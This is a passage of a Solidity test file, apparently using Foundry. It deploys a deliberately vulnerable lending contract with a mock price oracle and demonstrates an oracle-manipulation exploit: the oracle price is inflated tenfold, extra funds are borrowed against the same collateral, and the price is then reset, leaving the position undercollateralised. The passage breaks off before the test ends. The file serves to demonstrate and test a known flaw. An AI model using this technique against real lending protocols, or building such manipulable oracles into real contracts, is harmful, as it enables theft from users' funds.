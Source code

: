 ```solidity
        priceOracle = new MockPriceOracle(1e18);
        
        // Deploy the vulnerable lending contract with the collateral token, stablecoin, and price oracle addresses
        lending = new VulnerableLending(address(collateralToken), address(stablecoin), address(priceOracle));
        
        // Fund the lending contract with stablecoin tokens so that it can lend out funds
        require(stablecoin.transfer(address(lending), 5000 * 1e18), "Funding lending contract failed");
        
        // Have the borrower approve the lending contract to transfer collateral on their behalf
        vm.startPrank(borrower);
        collateralToken.approve(address(lending), type(uint256).max);
        vm.stopPrank();
    }
    
    // This test demonstrates how external price manipulation can lead to economic abuse.
    // The borrower first borrows safely with realistic oracle price, then exploits the vulnerability when the oracle is manipulated.
    function testExploit() public balanceLog {
        vm.deal(address(this), 10 ether); // Ensure this contract has enough ETH
        
        // --- Step 1: Demonstrate Normal Behavior ---
        // Borrower deposits 10 collateral tokens
        uint256 depositAmount = 10 * 1e18;
        vm.startPrank(borrower);
        require(lending.depositCollateral(depositAmount), "Collateral deposit failed");
        
        // With a realistic price of 1e18, maximum borrow = 10 tokens; borrow a safe amount (5 tokens)
        uint256 borrowAmount1 = 5 * 1e18;
        require(lending.borrow(borrowAmount1), "Initial borrow failed");
        
        // Verify that the account is not liquidatable under normal conditions
        bool liquidatableBefore = lending.isLiquidatable(borrower);
        require(liquidatableBefore == false, "Account unexpectedly liquidatable before price manipulation");
        vm.stopPrank();
        
        // --- Step 2: Demonstrate the Vulnerability ---
        // Manipulate the oracle to return an inflated price (10x the realistic value)
        vm.prank(address(this));
        priceOracle.setPrice(10e18);
        
        // The borrower now leverages the inflated price to borrow more funds using the same collateral.
        // Attempt to borrow an additional 80 tokens; total debt becomes 85 tokens.
        uint256 borrowAmount2 = 80 * 1e18;
        vm.startPrank(borrower);
        require(lending.borrow(borrowAmount2), "Second borrow failed");
        vm.stopPrank();
        
        // Simulate a price correction by reverting the oracle price back to its realistic level.
        vm.prank(address(this));
        priceOracle.setPrice(1e18);
        
        // Now, the loan significantly exceeds the actual collateral value. The account should be liquidatable.
        bool liquidatableAfter = lending.isLiquidatable(borrower);
        require(liquidatableAfter == true, "Account should be liquidatable after price correction");
        
```